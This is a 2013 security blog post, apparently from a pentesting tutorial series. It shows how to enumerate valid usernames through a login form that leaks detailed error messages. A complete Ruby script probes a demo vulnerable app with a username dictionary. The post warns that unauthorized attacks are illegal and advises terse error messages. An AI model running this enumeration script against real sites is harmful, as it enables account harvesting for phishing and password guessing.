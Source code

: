 ```yaml
---
layout: post
title: "Tales from a login page: exploit the form"
date: 2013-09-03 07:50
comments: true
published: true
featured: false
categories: h4f pentest-with-ruby owasp tales-from-login owasp-top-10 broken-authentication basm login session authentication railsberry 
thumb: folla.png
level:
hn: 
rd: 
---
```


[Last time](http://armoredcode.com/blog/tales-from-a-login-page-intro/) we
introduced the login form as seen on the attacker perspective.

The idea is to have laconic messages on error, not to give too much information
to an attacker and sanitize your input wisely to avoid authentication bypass
via SQL Injection.

Today we see how to exploit the login form to collect a list of existing
usernames on the site. Eventually we will try for very basic password as an
optional step.

<!-- more -->

## A vulnerable target 

Let's see we've got a [web site](https://github.com/thesp0nge/railsberry2013)
with an information disclosure problem. Our target gives too much detailed
error message when something went wrong during authentication.

With a site like this, we can enumerate existing usernames we can use in a fine
target attack (phishing mail campaign, weak password guessing and so on).

If we want also to exploit passwords, what we need is an existing user in order
to see the message or the page an authenticated user is redirect to. We need to
learn the success case. General purpose websites are happy to register new
users, so create one and you will use it later on.

We need also a dictionary of words to use to bruteforce our target, but now
it's time to remind you that...

{% blockquote %}
Attacking a web site without a formal engagement is a crime in almost all
countries around the world, yes... even in Italy. You have also to remember
that most of organizations have some firewall (to control network access or to
protect web access or even both of twos) so eventually you're attacking
attempts will be traced.

Using tor or other proxy anonymizer services won't help you that much since
some of the networks you would use are blacklisted by firewall vendors or
network carriers.
{% endblockquote %}

## Exploiting it

The exploit script core is vert simple. I used a dictionary I found on the Net
specially designed for username guessing. I won't disclose it now, Google is
your friend.

The first thing we do is to check the response posting an existing username
(the one we just created) with a wrong password and an "hopefully" non existing
username to see how the website answers in both cases.

``` ruby check if we can enumerate users
wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds
```

Then we create an array with usernames if posting a login taken from a dictionary with a very random password we get as answer a wrong password message.

``` ruby creating the array
r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
``` 


The whole script (without some trivial code you may want to write on your own) is the following.

``` ruby enumarating valid usernames on a vulnerable login form
@post = true
@dictionary = "./popular_users_small.txt"
username = val

log("existing user #{username} used as canary")

wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds

die "can't open #{@dictionary}" unless File.exists?(@dictionary)
lines = File.readlines(@dictionary)
log("#{lines.size} words from dictionary loaded")

found = []

lines.each do |line|
  @i += 1

  begin
    line = line.chomp.gsub(' ', '-').gsub("à", "a").gsub("è", "e").gsub("é", "e").gsub("ò", "o").gsub("ù", "u")
  rescue Exception => e
    err(e.message)
    line = "# discarded"
  end

  if ! line.start_with?("#")
    sleep(@sleep_time)
    log("awake... probing with: #{line}")


    r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
    found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
  end

end
log("#{found.size} user(s) found")
if found.size != 0
  found.each do |user|
    ok(user)
  end
end
helo "shutting down"
remove_pid_file
Kernel.exit(0)
```

## Off by one

As you may see, attacking a web site can be trivial when it gaves too much details. 
Remember also that you don't want to attack a web site you are not authorized to.
And next time, we will talk about cookies...

_Photo courtesy by [Fon-tina](http://www.flickr.com/photos/fontina/)_
